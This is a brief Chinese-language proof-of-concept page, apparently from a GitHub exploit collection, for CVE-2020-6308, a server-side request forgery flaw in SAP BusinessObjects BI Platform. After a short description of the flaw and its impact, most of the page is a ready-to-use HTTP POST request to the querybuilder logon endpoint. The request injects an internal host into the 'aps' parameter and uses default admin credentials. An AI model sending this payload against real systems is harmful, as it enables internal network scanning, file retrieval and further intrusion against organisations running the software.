 # CVE-2020-6308 SAP POC

SAP BusinessObjects Business Intelligence平台（Web服务）版本-410、420、430允许未经身份验证的攻击者注入任意值作为CMS参数，以在内部网络上执行查找，否则将无法从外部访问该内部网络。成功利用后，攻击者可以扫描内部网络以确定内部基础结构，并收集信息以进行进一步的攻击，例如远程文件包含，检索服务器文件，绕过防火墙并迫使易受攻击的服务器执行恶意请求，从而导致服务器端请求伪造漏洞。

详情参考：https://github.com/InitRoot/CVE-2020-6308-PoC

![](media/16096793220703/16096793301320.jpg)


**PoC：**

```bash
POST /AdminTools/querybuilder/logon?framework= HTTP/1.1
Host: 192.168.0.191:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: http://192.168.0.191:8080
Connection: close
Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp
Upgrade-Insecure-Requests: 1

aps=192.168.0.191&usr=admin&pwd=admin&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp
```